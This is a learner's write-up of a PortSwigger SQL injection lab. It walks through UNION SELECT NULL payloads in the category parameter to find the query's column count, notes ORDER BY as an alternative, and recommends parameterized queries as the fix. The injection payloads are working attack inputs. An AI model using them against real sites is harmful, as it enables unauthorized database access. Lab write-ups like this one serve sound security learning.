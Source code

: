 # SQL Injection - UNION Attack: Identify Column Count

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

---

## Process

### 1. Intercept the GET request using Burp Suite
```http
GET /filter?category=Corporate+gifts HTTP/2
```

### 2. Modify the category parameter to inject SQL

**Injected Payload:**
```http
GET /filter?category=Corporate+gifts'+UNION+SELECT+NULL-- HTTP/2
```
this displayed an error "Internal Server Error"

```http
GET /filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL-- HTTP/2
```
this also displayed an error "Internal Server Error"

```http
GET /filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL,NULL-- HTTP/2
```
this loaded the webpage normally,indicating the original query returns 3 columns, and the payload now matches that structure.

### 3. Explanation

`'+UNION+SELECT+NULL,NULL,NULL--` closes the string with `'`, adds a `UNION SELECT` clause with 3 columns (`NULL,NULL,NULL`), comments out the rest of the query using `--`.

**The SQL query becomes:**

```sql
SELECT * FROM products WHERE category = 'Corporate gifts' UNION SELECT NULL,NULL,NULL--' AND released = 1
```

Now the injected query structure is valid (matches the original query structure), and the page loades correctly.

---

## How to fix this vulnerability

**Use Parameterized Queries (Prepared Statements)**: 

Parameterised query treat user input as data, which prevents injection. Never build SQL statements by directly concatenating user input. 

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

---

## Reflection

Learned the first step of a UNION-based SQL injection: determining the number of columns required for a valid `UNION SELECT` query.

---

## Notes

`ORDER BY 1`, `ORDER BY 2`, etc., can also be used to determine the comumn count. However,when using ORDER BY, the page loads normally until the number exceeds the actual column count — then it shows an error.

`--` comments out the rest of the query. On MySQL, `--` should be followed by a space. Alternatively, `#` can also be used to identify a comment.

[SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---